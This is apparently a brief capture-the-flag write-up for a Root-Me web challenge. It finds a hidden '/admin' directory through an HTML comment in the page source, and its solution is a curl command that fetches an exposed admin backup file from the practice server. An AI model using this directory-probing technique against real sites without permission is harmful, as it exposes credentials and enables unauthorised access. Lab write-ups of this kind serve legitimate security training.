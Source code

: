 # Step 1
Identify other folder than `/` which might not have index file already

In the source you find `/admin`:
```html
<!-- include("admin/pass.html") -->
```

# Step 2
Look through `/admin`

# Solution
```sh
curl http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt
```
